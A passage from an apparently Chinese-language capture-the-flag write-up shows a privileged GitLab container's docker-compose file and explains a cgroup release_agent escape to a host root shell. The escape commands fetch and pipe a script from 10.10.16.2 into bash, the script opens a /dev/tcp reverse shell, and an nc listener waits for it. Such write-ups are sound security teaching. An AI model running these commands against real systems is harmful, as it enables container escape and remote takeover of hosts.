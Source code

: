 ```
root@gitlab:/opt/backup# cat docker-compose.yml
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
      - '/opt/user:/home/dude/'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m

networks:
  gitlab:
    driver: bridge
    ipam:
      config:
        - subnet: 172.19.0.0/16

```

```privileged: true```表示容器在主机上也有root权限

参考[这篇文章](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)里的方法，我们可以实现docker逃逸，获取主机的一个root shell

```
root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.16.2/shell.sh | bash' >/c;
root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

shell.sh
```
bash >& /dev/tcp/10.10.16.2/4242 0>&1
```

收到反弹shell
```
┌──(root💀kali)-[~]
└─# nc -lnvp 4242                                                                                               1 ⨯
listening on [any] 4242 ...